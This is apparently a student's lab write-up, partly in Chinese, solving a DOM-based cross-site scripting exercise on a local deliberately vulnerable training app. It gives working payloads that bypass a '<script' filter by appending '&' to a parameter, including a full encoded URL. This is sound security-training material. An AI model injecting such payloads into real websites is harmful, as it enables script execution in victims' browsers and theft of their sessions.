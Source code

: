# **DOM Based Cross Site Scripting (XSS)**

> The developer has tried to add a simple pattern matching to remove any references to "<script" to disable any JavaScript. Find a way to run JavaScript without using the script tags.
>

try 了一下，發現加了 `&` 在  English 後面可以逃過檢查，有時候後端過濾變數時會忘記處理重複性或多個變數的狀況，剛好類似目前的情境

```jsx
English&<script>alert(1)</script>
```

```jsx
default=English&<script>alert(1)</script>
```

```
http://localhost:8086/vulnerabilities/xss_d/?default=English&%3Cscript%3Ealert(1)%3C/script%3E
```
